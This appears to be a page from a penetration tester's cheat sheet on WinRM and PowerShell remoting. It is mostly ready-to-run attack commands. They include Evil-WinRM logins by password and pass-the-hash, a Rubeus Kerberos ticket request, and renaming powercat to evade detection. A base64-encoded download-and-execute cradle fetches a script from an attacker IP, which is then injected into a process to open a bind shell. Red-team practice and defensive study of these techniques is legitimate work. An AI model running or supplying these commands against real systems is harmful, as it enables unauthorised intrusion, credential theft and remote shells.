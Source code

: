 # WinRM / PSRemoting

* [https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/](https://www.bloggingforlogging.com/2018/01/24/demystifying-winrm/)
* [https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/](https://www.powershellmagazine.com/2014/03/06/accidental-sabotage-beware-of-credssp/)
* [https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons](https://www.ired.team/offensive-security/credential-access-and-credential-dumping/network-vs-interactive-logons)




## From Windows

* [https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm](https://0xdf.gitlab.io/2019/08/17/htb-helpline-win.html#enable-winrm)

```
PS > winrm get winrm/config
PS > winrm set winrm/config/client '@{TrustedHosts="*"}'
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred
PS > Enter-PSSession -Session $sess
PS > Copy-Item .\file.txt -Destination "C:\users\administrator\music\" -ToSession $sess
```




## From Linux



### Evil-WinRM

* [https://github.com/Hackplayers/evil-winrm](https://github.com/Hackplayers/evil-winrm)

Basic syntax:

```
$ evil-winrm -u '[MEGACORP\]snovvcrash' -p 'Passw0rd!' -i 10.10.13.37 -s `pwd` -e `pwd`
$ evil-winrm -u '[MEGACORP\]snovvcrash' -H fc525c9683e8fe067095ba2ddc971889 -i 10.10.13.37 -s `pwd` -e `pwd`
```

{% hint style="info" %}
Always use full username when authenticating as a domain user, because if there're 2 users sharing the same name (a local user and a domain user), say `WORKGROUP\Administrator` and `MEGACORP\Administrator`, and you're trying to authenticate as a domain admin without providing the domain prefix, authentication will fail.
{% endhint %}

Execute a .NET binary:

```
*Evil-WinRM* PS > Invoke-Binary Rubeus.exe "asktgt, /domain:megacorp.local, /user:snovvcrash, /rc4:fc525c9683e8fe067095ba2ddc971889, /nowrap"
```

Spawn interactive bind shell with [powercat.ps1](https://github.com/besimorhino/powercat/blob/master/powercat.ps1) and [Invoke-PSInject.ps1](https://github.com/EmpireProject/PSInject/blob/master/Invoke-PSInject.ps1):

```
$ sed -i s/powercat/pwcat/g pwcat.ps1
$ echo 'powercat -l -p 1337 -e cmd.exe' >> pwcat.ps1
$ echo 'IEX(New-Object Net.WebClient).DownloadString(''http://10.10.13.37/pwcat.ps1'')' | iconv -t UTF-16LE | base64 -w0
*Evil-WinRM* PS > Get-Process
*Evil-WinRM* PS > Invoke-PSInject.ps1
*Evil-WinRM* PS > Invoke-PSInject -ProcId <PID> -PoshCode <BASE64_CMD>
$ rlwrap nc 192.168.1.11 1337
```



### pwsh

```
$ pwsh
PS > $sess = New-PSSession -ComputerName 192.168.11.1 -Credential $cred -Authentication Negotiate
PS > Enter-PSSession -Session $sess
```
